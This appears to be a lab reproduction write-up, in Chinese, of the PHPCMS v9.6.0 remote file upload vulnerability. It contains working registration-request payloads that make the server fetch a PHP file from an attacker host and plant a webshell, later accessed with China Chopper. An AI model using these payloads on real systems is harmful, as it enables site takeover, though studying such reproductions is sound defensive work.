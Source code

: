 # PHPcms v9.6.0 文件上传漏洞

## 一、漏洞描述

​		PHPCMS 9.6.0版本中的libs/classes/attachment.class.php文件存在漏洞,该漏洞源于PHPCMS程序在下载远程/本地文件时没有对文件的类型做正确的校验。远程攻击者可以利用该漏洞上传并执行任意的PHP代码。

## 二、漏洞影响版本

PHPCMS 9.6.0

phpcms v9.6.0下载地址：http://down.chinaz.com/soft/28180.html

## 三、漏洞环境搭建

略

注：PHP版本=v7.3使用switch中使用continue会出现警告错误。（解决措施：v5.2<php<v7.3）

![image-20210322235123330](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/20210322235123.png)

## 四、漏洞复现

1.本地搭建phpcmsv9.0

2.文件上传漏洞出现在注册页面，进入注册页面，填入所需要的信息

![image-20210322112259819](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/20210322112306.png)

3.使用burp进行抓包（在post请求中可以看到生日写入的字段是info[birthday]，猜测info还有其他对应的值）

![image-20210322112411545](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/20210322112411.png)

4.在另一个系统（kali），开启web服务，然后在web根目录中创建一个txt文件

![image-20210322232806814](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/20210322232806.png)

![image-20210322232647024](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/20210322232647.png)

5.对txt文件进行访问（注：因为是远程上传文件漏洞，因此txt文件要先可以被访问）

![image-20210322232835711](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/20210322232835.png)

6.构建poc（注：构建poc时有几个注意点）

- modelid取值（modelid取值有1，2，3，10，11，但是10不可以（info[content]需要调用editor函数，modelid为10不存在这个函数））
- info[birthday]修改为info[content]
- 每次发送数据包要修改username，password，email的值

```txt
siteid=1&modelid=11&username=13&password=131111&pwdconfirm=131111&email=131111%40163.com&nickname=13&info[content]=<img%20src=http://192.168.112.147/phpinfo.txt?.php#.jpg>&dosubmit=%E5%90%8C%E6%84%8F%E6%B3%A8%E5%86%8C%E5%8D%8F%E8%AE%AE%EF%BC%8C%E6%8F%90%E4%BA%A4%E6%B3%A8%E5%86%8C&protocol=
```

![image-20210323075948084](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/20210323075948.png)

7.可以看到返回包里包含了文件上传的路径

![image-20210323080103638](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/20210323080103.png)

8.浏览器访问，php代码被执行

![image-20210323080441506](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/20210323080441.png)

9.构造POC,上传一句话

```txt
siteid=1&modelid=11&username=15&password=151111&pwdconfirm=151111&email=151111%40163.com&nickname=15&info[content]=<img%20src=http://192.168.112.147/shell.txt?.php#.jpg>&dosubmit=%E5%90%8C%E6%84%8F%E6%B3%A8%E5%86%8C%E5%8D%8F%E8%AE%AE%EF%BC%8C%E6%8F%90%E4%BA%A4%E6%B3%A8%E5%86%8C&protocol=
```

![image-20210323080658038](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/20210323080658.png)

10、菜刀连接

![image-20210323080941919](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/20210323080942.png)

## 五、源码解析

详细解析：https://www.jianshu.com/p/204698667fa2?tdsourcetag=s_pcqq_aiomsg